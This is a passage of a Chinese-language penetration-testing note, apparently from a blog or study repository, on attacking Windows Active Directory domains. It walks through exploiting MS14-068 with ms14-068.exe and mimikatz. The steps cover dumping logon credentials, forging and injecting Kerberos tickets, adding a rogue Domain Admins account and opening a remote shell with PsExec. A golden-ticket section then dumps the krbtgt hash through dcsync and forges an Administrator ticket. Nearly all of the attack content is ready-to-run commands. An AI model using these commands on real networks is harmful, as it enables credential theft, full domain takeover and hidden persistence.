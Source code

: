 ```
```


## 0x04 获取域管理员权限：MS14-068
ms14-068漏洞在域控没有打补丁（kb3011780）时，能将任意域用户，提升为域管理员权限。

该漏洞利用是通过客户端来伪造高权限的PAC产生的。
详细介绍：[深入解读MS14-068漏洞][3]
补充：添加域用户[MS14-068 域用户权限提升漏洞复现][4]


- 神器mimikatz 

```
privilege::debug
sekurlsa::logonpasswords
```


 - ms14068.exe  伪造kerberos票据
```
net group "domain controllers"  /domain   获取计算机名称
```

```
ms14-068.exe -u test@domaintest.com -p 123456 -s S-1-5-21-1607545464-3564583392-2085136103-1114
-d WIN-0IQJV7P073G.domaintest.com

```

- mimikatz 导入票据
 
```
mimikatz.exe "kerberos::ptc TGT_test@domaintest.com.ccache" exit
```

拿到域管理权限便可进行其他一系列操作
```
dir \\WIN-0IQJV7P073G.domaintest.com\c$    注意这里应为域控主机名称，不能为ip

net user admin xxxxx@password /add /domain
net group "Domain Admins" admin /add /domain

PsExec.exe \\192.168.111.129 cmd.exe
```



  
## 0x05 权限维持：黄金票据

原理
每个用户的Ticket都是由krbtgt的密码Hash来生成的，那么，我们如果拿到了krbtgt的密码Hash，不就可以随意伪造Ticket了吗？

实际上只要拿到了域控权限，在上面就可以很容易的获得krbtgt的Hash值，再通过mimikatz即可生成任意用户任何权限的Ticket，也就是Golden Ticket

获取krbtgt
```
mimikatz log "lsadump::dcsync /domaintest.com /user:krbtgt"
```
构造黄金票据并注入内存
```
mimikatz # kerberos::purge
mimikatz # kerberos::golden /admin:Administrator /domain:domaintest.com /sid:S-1-5-21-3883552807-251258116-2724407435 /krbtgt:6a8e501fabcf264c70ef3316c6aab7dc /ticket:Administrator.kiribi
mimikatz # kerberos::ptt Administrator.kiribi
mimikatz # kerberos::tgt

```


  [1]: http://www.freebuf.com/vuls/56081.html
  [2]: https://s1.ax1x.com/2018/09/07/iCXIR1.png
  [3]: http://www.freebuf.com/vuls/56081.html
  [4]: https://www.knowsec.net/archives/258/
  [5]: http://drops.xmd5.com/static/drops/tips-12159.html
  [6]: https://github.com/l3m0n/pentest_study
  [7]: https://paper.tuisec.win/detail/2a7446285e7d085
  [8]: https://paper.tuisec.win/detail/fc1086dabbc9002
  [9]: https://paper.tuisec.win/detail/cd49c17ca23cece